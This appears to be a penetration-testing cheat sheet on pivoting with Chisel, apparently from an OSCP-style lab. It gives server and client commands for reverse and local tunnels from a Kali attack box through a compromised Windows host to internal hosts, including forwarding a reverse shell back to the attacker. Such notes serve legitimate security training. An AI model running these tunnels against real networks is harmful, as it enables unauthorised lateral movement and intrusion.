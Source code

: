 # Pivoting with Chisel

## Reverse Pivot

(sends traffic back to kali via tunnel)



Kali -> victim -> network host

* Attack host spins up reverse listener
* Victim sets up tunnel back to listener port on attack box and also links between intermediate client and remote target
* Allows connection from Kali (127.0.0.1:8001) via tunnel to port 80 on remote host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v -reverse
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 R:8001:172.16.163.5:80
```

![](</assets/images/Reverse_Pivot_1.png>) ![](</assets/images/Reverse_Pivot_2.png>)

## Local Pivot

(sends traffic to client and then back to kali)



Kali > victim < network host

* Attack host spins up listener
* Victim sets up tunnel back to listener port on attack box and also opens listener on localhost
* Hosts can send traffic (rev shell) back to listener on victim which gets directed back to attack host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 9001:127.0.0.1:8001
```

On Remote host execute payload with IP of client and it will get forwarded to attack box

![](</assets/images/Local_Pivot_1.png>)![](</assets/images/Local_Pivot_2.png>)![](</assets/images/Local_Pivot_3.png>)
